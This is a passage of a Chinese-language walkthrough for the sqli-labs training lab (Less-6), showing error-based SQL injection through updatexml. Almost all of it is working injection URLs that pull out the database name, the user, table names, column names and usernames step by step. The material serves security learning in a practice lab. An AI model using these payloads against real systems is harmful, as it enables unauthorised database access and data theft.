 #### 2.4.2.1.爆库

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

![bool40](/images/sqlall/bool40.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
```

#### 2.4.2.3.爆表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select table_name from information_schema.tables
where table_schema='security' limit 0,1),0x7e),1)--+
```

![bool41](/images/sqlall/bool41.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select table_name from information_schema.tables
where table_schema='security' limit 1,1),0x7e),1)--+
```

#### 2.4.2.4.爆字段

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select column_name from information_schema.columns
where table_name='users' limit 0,1),0x7e),1)--+
```

![bool42](/images/sqlall/bool42.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select column_name from information_schema.columns
where table_name='users' limit 1,1),0x7e),1)--+
```

#### 2.4.2.5.爆数据

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and updatexml(1,concat(0x7e,(select username from security.users limit
0,1),0x7e),1)--+
```
